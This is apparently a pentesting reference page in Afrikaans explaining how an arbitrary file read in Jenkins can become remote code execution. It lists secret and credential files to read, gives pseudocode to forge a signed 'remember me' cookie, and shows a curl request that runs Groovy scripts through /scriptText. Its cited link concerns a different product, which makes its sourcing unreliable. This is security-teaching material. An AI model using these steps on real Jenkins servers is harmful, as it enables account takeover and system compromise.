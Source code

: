 # Jenkins Arbitrêre Lêer Lees na RCE via "Onthou My"

{{#include ../../banners/hacktricks-training.md}}

In hierdie blogpos is dit moontlik om 'n uitstekende manier te vind om 'n Local File Inclusion kwesbaarheid in Jenkins in RCE te transformeer: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Dit is 'n KI-gegenereerde opsomming van die deel van die pos waar die vervaardiging van 'n arbitrêre koekie misbruik word om RCE te verkry deur 'n plaaslike lêer te lees totdat ek tyd het om 'n opsomming op my eie te skep:

### Aanval Voorvereistes

- **Kenmerk Vereiste:** "Onthou my" moet geaktiveer wees (standaardinstelling).
- **Toegangsvlakke:** Aanvaller benodig Algemene/Lees regte.
- **Geheime Toegang:** Vermoë om beide binêre en teksinhoud van sleutel lêers te lees.

### Gedetailleerde Exploitasiestap

#### Stap 1: Gegevensinsameling

**Gebruikersinligting Herwinning**

- Toegang gebruikerskonfigurasie en geheime van `$JENKINS_HOME/users/*.xml` vir elke gebruiker om te versamel:
- **Gebruikersnaam**
- **Gebruiker saad**
- **Tydstempel**
- **Wagwoord hash**

**Geheime Sleutel Uittrekking**

- Trek kriptografiese sleutels uit wat gebruik word om die koekie te teken:
- **Geheime Sleutel:** `$JENKINS_HOME/secret.key`
- **Meester Sleutel:** `$JENKINS_HOME/secrets/master.key`
- **MAC Sleutel Lêer:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Stap 2: Koekie Valsifikasie

**Token Voorbereiding**

- **Bereken Token Vervaldatum:**

```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000 // Voeg een uur by die huidige tyd
```

- **Konkateer Gegevens vir Token:**

```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```

**MAC Sleutel Ontsleuteling**

- **Ontsleutel MAC Sleutel Lêer:**

```javascript
key = toAes128Key(masterKey)  // Convert meester sleutel na AES128 sleutel formaat
decrypted = AES.decrypt(macFile, key)  // Ontsleutel die .mac lêer
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Handtekening Berekening**

- **Bereken HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey) // Bereken HMAC met die token en MAC sleutel
tokenSignature = bytesToHexString(mac) // Convert die MAC na 'n hexadesimale string
```

**Koekie Kodering**

- **Genereer Finale Koekie:**

```javascript
cookie = base64.encode(
username + ":" + tokenExpiryTime + ":" + tokenSignature
) // Base64 kodeer die koekie data
```

#### Stap 3: Kode Uitvoering

**Sessie Verifikasie**

- **Haal CSRF en Sessie Tokens:**
- Maak 'n versoek na `/crumbIssuer/api/json` om `Jenkins-Crumb` te verkry.
- Vang `JSESSIONID` uit die antwoord, wat saam met die onthou-my koekie gebruik sal word.

**Opdrag Uitvoeringsversoek**

- **Stuur 'n POST Versoek met Groovy Skrip:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

- Groovy skrip kan gebruik word om stelselniveau opdragte of ander operasies binne die Jenkins omgewing uit te voer.

Die voorbeeld curl-opdrag wat verskaf word demonstreer hoe om 'n versoek aan Jenkins te maak met die nodige koptekste en koekies om arbitrêre kode veilig uit te voer.

{{#include ../../banners/hacktricks-training.md}}
